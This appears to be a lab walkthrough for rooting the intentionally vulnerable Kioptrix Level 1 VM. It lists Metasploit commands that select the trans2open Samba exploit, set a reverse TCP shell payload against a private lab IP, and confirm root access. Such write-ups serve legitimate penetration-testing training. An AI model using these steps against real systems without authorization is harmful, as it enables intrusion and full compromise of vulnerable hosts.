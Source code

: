 
# Kioptrix Level 1 - Exploitation (Gaining Root with Metasploit)

## Overview
This guide provides instructions for exploiting the Kioptrix Level 1 machine to gain root access using Metasploit. This is for educational purposes and should only be done in a controlled environment with proper authorization.

## Exploitation Steps

1. Start Metasploit by running the following command:
   ```bash
   msfconsole
   ```

2. Search for the trans2open exploit:
   ```bash
   search trans2open
   ```

3. Select the appropriate exploit (e.g., Linux x86) using its module number:
   ```bash
   use <module_number>
   ```

4. Set the target IP address as the RHOSTS:
   ```bash
   set RHOSTS 192.168.30.128
   ```

5. Check the available options and configure the exploit if needed:
   ```bash
   options
   ```

6. Set the payload to gain a reverse shell:
   ```bash
   set payload linux/x86/shell_reverse_tcp
   ```

7. Run the exploit:
   ```bash
   exploit
   ```

8. Once the exploit is successful, you will have a command shell session open. Verify that you have root access:
   ```bash
   whoami
   hostname
   ```

9. You should see `root` as the user and `kioptrix.level1` as the hostname, indicating that you have gained root access to the Kioptrix Level 1 machine.

## Additional Notes
- Ensure that you have permission to perform these actions on the target machine.
- Always use ethical hacking practices and do not use these techniques on unauthorized systems.
